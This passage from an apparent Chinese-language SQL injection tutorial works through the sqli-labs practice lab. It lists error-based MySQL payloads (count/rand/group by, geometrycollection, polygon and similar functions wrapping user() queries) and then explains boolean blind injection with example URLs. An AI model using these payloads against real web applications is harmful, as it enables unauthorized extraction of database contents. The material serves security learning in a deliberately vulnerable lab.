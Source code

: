 ```mysql
select count(*) from users group by concat(version(),floor(rand(0)*2));
```

```mysql
http://172.16.0.1/Less-5/?id=1' and (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2))) -- +
```

只要是count，rand()，group by三个连用就会造成这种报错，与位置无关。

### 函数特性报错

- geometrycollection() 

```mysql
and geometrycollection((select * from(select * from(select user())a)b))-- + 
```
- multipoint()

```mysql
and multipoint((select * from(select * from(select user())a)b))-- +
```
- polygon() 

```mysql
and polygon((select * from(select * from(select user())a)b))-- +
```
- multipolygon() 

```mysql
and multipolygon((select * from(select * from(select user())a)b))-- +
```
- linestring() 

```mysql
and linestring((select * from(select * from(select user())a)b))-- +
```
- multilinestring() 

```mysql
and multilinestring((select * from(select * from(select user())a)b))-- +
```

## 盲注
盲注指的是没有回显，但是能根据我们构造的sql条件返回不同响应，而盲注跑出数据相对较麻烦
### 布尔型的盲注
适用于对条件真假返回不同响应的注入
以sqlilabs第6关举例
```mysql
http://go.go/sqli-labs/Less-6/?id=1" SQL语句报错
http://go.go/sqli-labs/Less-6/?id=1" and 1=1 -- + 返回正常
http://go.go/sqli-labs/Less-6/?id=1" and 1=2 -- + 返回不正常
```
![](https://y4er.com/img/uploads/20190430180557.png)
当and条件1=1为真时，页面返回`You are in...........`
and条件1=2为假时
![](https://y4er.com/img/uploads/20190430180906.png)
`You are in...........`不显示，那么这就是一个布尔型的MySQL盲注。
